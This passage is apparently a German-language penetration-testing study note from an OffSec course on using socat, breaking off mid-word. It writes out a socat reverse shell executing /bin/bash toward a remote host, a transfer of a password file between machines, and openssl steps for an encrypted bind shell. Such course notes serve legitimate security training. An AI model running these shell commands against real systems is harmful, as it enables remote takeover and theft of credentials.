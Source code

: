 # OffSec - Socat 

## File Transfer

Listener mit #Socat auf dem Host öffnen, um Daten zu empfangen und in eine Datei zu schreiben 

`socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

Auf dem Empfänger folgender Befehl:
`socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`

## Reverseshells

Mit #Socat können auch #Reverseshells eröffnet werden. 

Auf dem Host
```socat -d -d TCP4-LISTEN:443 STDOUT```

Mit dem Angreifer PC folgende #Reverseshell spawnen

```socat TCP4:10.11.0.22:443 EXEC:/bin/bash```

## Socat Encrypted Bind Shells

Mit #Socat können #Ecrypted #BindShells erstellt werden. 
Dazu geht man wie folgt vor:

Auf der Angreifermaschine ein neues #SSL-Zertifikat erzeugen:
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`

-   req: initiate a new certificate signing request
-   -newkey: generate a new private key
-   rsa:2048: use RSA encryption with a 2,048-bit key length.
-   -nodes: store the private key without passphrase protection
-   -keyout: save the key to a file
-   -x509: output a self-signed certificate instead of a certificate request
-   -days: set validity period in days
-   -out: save the certificate to a file

Man erhält nun zwei #Zertifikate - bind_shell.key und bind_shell.crt.
Damit #Socat die #Zertifikate akzeptiert, müssen diese in ein .pem-File verwandelt werden.

`cat bind_shell.key bind_shell.crt > bind_shell.pem`

Um nun eine verschl

